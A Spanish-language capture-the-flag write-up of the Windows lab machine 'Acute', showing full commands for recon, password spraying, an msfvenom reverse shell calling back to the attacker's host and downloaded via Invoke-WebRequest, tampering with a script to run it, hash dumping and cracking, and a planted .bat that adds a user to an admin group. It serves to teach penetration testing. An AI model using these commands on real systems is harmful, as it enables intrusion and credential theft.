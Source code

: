```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Acute              |
| Os                     | Windows            |
| Difficulty             | Hard               |
| Points                 | 40                 |
| IP                     | 10.10.11.145       |


## [](#header-2)Introduccion

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Acute/Scan1.png)

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

![nmap 1](/assets/images/Acute/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

![nmap2](/assets/images/Acute/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

![nmap3](/assets/images/Acute/nmap3.png)

Es raro tener una windows machine con solo 2 puertos abiertos, el certificado ssl arroja un subdominio `atsserver.acute.local` , asi que lo agregare en el /etc/hosts.

El siguiente paso, sera Fuzzear directorios, asi que usaremos gobuster.

```s
gobuster dir -u "http://atsserver.acute.local" -w /usr/share/wordlists/wfuzz/webservices/subdomains-top1million-5000.txt -t 200
```

Al visitar el directorio encontrado /aspnet_client/, se nos muestra un error de autenticacion, es raro por que no me redirigio a otra pagina. 

Segui buscando en la pagina inicial, y me encontre con potenciales usuarios y contrasenas, me fui a la pagina /about.html y me descargue un archivo .docx.


Lo siguiente fue hacerle un exiftool contra el documento, para ver mas informacion sobre el

![exiftool](/assets/images/Acute/exiftool.png)

Despues al abrir el documento, encontramos una contrasena por default `Password1!` y un usuario `Lois` y un link para acceso web con Powershell.

Acceso a usuarios: 
Intente meter contrasenas por default, pero no hubo exito, asi que recorde la lista de usuarios que venia en la pagina de /about.html y <a href="https://github.com/urbanadventurer/username-anarchy">use useranarchy</a> y el comando que use fue:

```s
sudo programs/username-anarchy/username-anarchy -i content/user_ls.txt --select-format first,first.last,f.last,flast > content/user2.lst
```

![User 2 list](/assets/images/Acute/usr2_ls.png)

Prove con cada usuario, nombre de pc Acute-PC01 la contrasena por default `Password1!` y como usuario edavies funciono.

![PowerShell Access](/assets/images/Acute/ps_access.png)

AV esta encendido, asi que no se puede establecer una conexion con meterpreter. Para poder establecer la conexion, se necesitaria un directorio que no este escaneado por el AV, asi que en la busqueda encontre que System32 no lo esta, ni Utils.

Cree un reverse shell con msfvenom:

```s
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.230 LPORT=4444 -f exe -o shell.exe
```

Lo descargue en la maquina con:

Host:

```s
python3 -m http.server 80
```

Client:

```powershell
powershell invoke-WebRequest -UseBasicParsing 10.10.14.230/shell.exe -OutFile shell.exe

./shell.exe
```

![PowerShell invoke](/assets/images/Acute/invoke.png)

Aun asi, no se pudo hacer mucho, cuando se listaron los procesos que estan ejecutandose, estaba ejecutandose una ventana de PS, asi que tome una captura de pantalla con meterpreter y me di cuenta de que PS se esta ejecutando con el usuario acute\imonks, el cual no esta en los usuarios de la maquina, supongamos que pertenece entonces a otra llamada ATSSERVER.

La cual es el gateway de la maquina que estabamos previamente, y nos damos cuenta si desde esa maquina hacemos un ping al dominio.

![ATSSERVER](/assets/images/Acute/ping_ASSERVER.png)

La maquina tambien nos dejo meter los siguientes comandos:

```powershell
$passwd = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -Force

$creds = New-Object System.Management.Automation.PSCredential("acute\imonks", $passwd)

Invoke-Command -ComputerName ATSSERVER -Credential $creds -ConfigurationName dc_manage -ScriptBlock {whoami}
```

![Comandos](/assets/images/Acute/commands1.png)

Entonces podremos ver si aqui se encuentra la flag, con un:

```powershell
Invoke-Command -ComputerName ATSSERVER -Credential $creds -ConfigurationName dc_manage -ScriptBlock {ls C:/Users/imonks/Desktop/}
```

Y la leemos con:

```powershell
Invoke-Command -ComputerName ATSSERVER -Credential $creds -ConfigurationName dc_manage -ScriptBlock {cat C:/Users/imonks/Desktop/user.txt}
```

Como vemos, tambien se encuentra unarchivo wm.ps1. Tambien me di cuenta que hay de ese lado un usuario en acute\jmorgan que esta conectado a la maquina donde estamos y esta ejecutando un Get-Volume Command.

Intentaremos reemplazar el comando GVC por el reverseshell que tenemos con un:

```powershell
Invoke-Command -ComputerName ATSSERVER -Credential $creds -ConfigurationName dc_manage -ScriptBlock {((cat "C:\Users\imonks\Desktop\wm.ps1" -Raw) -replace 'Get-Volume','cmd.exe /c C:\Utils\shell.exe') | Set-Content -Path C:\Users\imonks\Desktop\wm.ps1}
```

Lo ejecutamos ahora con:

```powershell
Invoke-Command -ComputerName ATSSERVER -Credential $creds -ConfigurationName dc_manage -ScriptBlock {C:\Users\imonks\Desktop\wm.ps1}
```

![Jmorgan acces](/assets/images/Acute/jmorgan_access.png)

Nos cambiamos de proceso, a uno con mayores privilegios, y parece que pudimos obtener ahora si el hashdump que nos estaba rebotando. Este posteriormente o crackearemos.

![Hashdump](/assets/images/Acute/hashdump.png)

Con john decripter crackearemos la contrasena, con el comando:

```s
john --format=NT hashdump.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![Hashdump cracked](/assets/images/Acute/hashdump_cracked.png)

Intentaremos entrar con algun usuario con estas credenciales, con:

```powershell
$passwd = ConvertTo-SecureString "Password@123" -AsPlainText -Force

$creds = New-Object System.Management.Automation.PSCredential("acute\awallace", $passwd)

Invoke-Command -ComputerName ATSSERVER -Credential $creds -ConfigurationName dc_manage -ScriptBlock {whoami}
```

![Awallace access](/assets/images/Acute/awallace_access.png)

Ahora encontraremos un interesante keepmeon.bat que es ejecutado por Lois cada 5 minutos en:

```powershell
Invoke-Command -ComputerName ATSSERVER -Credential $creds -ConfigurationName dc_manage -ScriptBlock {ls "C:\Program Files\keepmeon"}
```

![Keep me on file](/assets/images/Acute/keepmeon.png)

Veamos que contiene dentro

```powershell
Invoke-Command -ComputerName ATSSERVER -Credential $creds -ConfigurationName dc_manage -ScriptBlock {cat "C:\Program Files\keepmeon"}
```

![Keep me on inside](/assets/images/Acute/keepmeon_bat.png)

Este .bat file checa si existe otro .bat dentro del directorio para que lo ejecute con los privilegios de Lois. Segun el .docx decia que Lois es quien puede cambiar grupos de usuario y puede ser admin.

Ahora haremos un .bat con el siguiente comando, y esperaremos unos 5 minutos para que nos mande la conexion:

```powershell
Invoke-Command -Credential $creds -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {Set-Content -Path 
'C:\Program Files\keepmeon\pwn.bat' -Value 'net group site_admin awallace /add /domain'}
```

Despues de 5 minutos, seremos administradores del sitio y podremos leer la ultima flag con:

```powershell
Invoke-Command -ComputerName ATSSERVER -Credential $creds -ConfigurationName dc_manage -ScriptBlock {cat "C:\Users\Administrator\Desktop\root.txt"}
```

![Keep me on inside](/assets/images/Acute/powned.png)